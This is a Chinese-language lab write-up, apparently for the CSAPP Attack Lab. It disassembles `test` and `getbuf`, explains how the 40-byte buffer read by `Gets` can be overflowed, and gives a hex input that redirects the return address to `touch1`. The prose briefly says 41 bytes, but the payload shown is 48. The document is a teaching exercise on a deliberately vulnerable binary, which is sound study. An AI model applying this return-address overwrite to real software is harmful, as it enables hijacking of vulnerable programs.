 ### 反汇编`test`

```assembly
Dump of assembler code for function test:
   0x0000000000401968 <+0>:     sub    $0x8,%rsp
   0x000000000040196c <+4>:     mov    $0x0,%eax
   0x0000000000401971 <+9>:     callq  0x4017a8 <getbuf>
   0x0000000000401976 <+14>:    mov    %eax,%edx
   0x0000000000401978 <+16>:    mov    $0x403188,%esi
   0x000000000040197d <+21>:    mov    $0x1,%edi
   0x0000000000401982 <+26>:    mov    $0x0,%eax
   0x0000000000401987 <+31>:    callq  0x400df0 <__printf_chk@plt>
   0x000000000040198c <+36>:    add    $0x8,%rsp
   0x0000000000401990 <+40>:    retq
End of assembler dump.
```

第2行分配栈帧，第4行调用`getbuf`函数

### 反汇编`getbuf`

```assembly
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq
End of assembler dump.
```

分配了40个字节的栈帧，随后将栈顶位置作为参数调用`Gets`函数，读入字符串。

此时，栈帧情况是这样的：（以8个字节为单位）

![image-20220305095612188](https://cdn.jsdelivr.net/gh/Deconx/ImgHosting/Deconx-pic/image-20220305095612188.png)

查到`touch1`代码地址为：`0x4017c0`

由此就有了思路，我们只需要输入41个字符，前40个字节将`getbuf`的栈空间填满，最后一个字节将返回值覆盖为`0x4017c0`即`touch1`的地址，这样，在`getbuf`执行`retq`指令后，程序就会跳转执行`touch1`函数。

### Solution

采用`Write up`推荐方法，创建一个`txt`文档存储输入。并按照`HEX2RAW`工具的说明，在每个字节间用空格或回车隔开。

**`x86`采用小端存储，要注意输入字节的顺序**

输入为：

```bash
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```
